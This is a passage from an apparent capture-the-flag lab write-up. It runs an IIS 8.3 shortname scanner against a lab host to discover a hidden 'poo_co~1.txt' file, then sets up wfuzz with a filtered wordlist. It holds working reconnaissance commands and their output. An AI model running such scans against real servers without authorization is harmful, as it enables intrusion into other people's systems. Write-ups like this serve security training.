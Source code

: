 

I'm not sure why it misses the `.` in front of `.DS_Store`. The script
labels it as directories because in 8.3 if it doesn't have an extension
it's thought to be a directory.

More interesting is when I run it against the `/dev` directories. The
root just finds the `.DS_Store` and the two hash directories I know
about. In each of the hash directories it only finds `.DS_Store`. It
shows the `src`, `include`, and `core` directories are not vulnerable.
But the `db` directory shows what looks like the same file in both:



    root@kali# python /opt/IIS_shortname_Scanner/iis_shortname_Scan.py http://10.13.38.11/dev/dca66d38fd916317687e1390a420c3fc/db
    Server is vulnerable, please wait, scanning...
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/p~1.*      [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/po~1.*     [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo~1.*    [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_~1.*   [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_c~1.*  [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.* [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.t*        [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.tx*       [scan in progress]
    [+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt*      [scan in progress]
    [+] File /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt* [Done]
    ----------------------------------------------------------------
    File: /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt*
    ----------------------------------------------------------------
    0 Directories, 1 Files found in total
    Note that * is a wildcard, matches any character zero or more times.
    root@kali# python /opt/IIS_shortname_Scanner/iis_shortname_Scan.py http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db
    Server is vulnerable, please wait, scanning...                                                               ...[snip]...
    ----------------------------------------------------------------
    File: /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.txt*
    ----------------------------------------------------------------
    0 Directories, 1 Files found in total
    Note that * is a wildcard, matches any character zero or more times.



### Fuzz File

I know there's a `.txt` file in
`/dev/304c0c90fbc6520610abbf378e2339d1/db/` that starts with `poo_co`.
This is where I can use `wfuzz` to see if I can find the rest of the
filename. I'll `grep` words that start with `co` from
`raft-large-words-lowercase.txt` which gives a relatively small wordlist
to start with:


